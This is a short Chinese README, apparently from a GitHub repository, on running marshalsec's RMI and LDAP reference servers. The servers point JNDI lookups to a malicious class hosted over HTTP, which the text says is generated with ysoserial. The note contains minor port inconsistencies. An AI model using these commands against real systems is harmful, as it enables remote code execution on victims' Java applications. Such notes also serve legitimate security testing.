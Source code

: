 # README



## marshalsec 使用

### 开启 RMI 服务器

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088
```

上述代码的  `http://ip:8080/文件夹/#ExportObject` 指向一个 `http` 服务器地址，要求能够通过 `http` 访问该链接。

 `ExportObject` 为恶意类，一般通过 `ysoserial` 来生成

8099 为 `rmi` 服务器的端口，如果不指定，默认使用 `1099` 端口

![image-20211222214322108](README.assets/image-20211222214322108.png)



### 开启 LDAP 服务器

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088
```



上述代码的  `http://ip:8080/文件夹/#ExportObject` 指向一个 `http` 服务器地址，要求能够通过 `http` 访问该链接。

8088 为 `rmi` 服务器的端口，如果不指定，默认使用 `1389` 端口

![image-20211222214403070](README.assets/image-20211222214403070.png)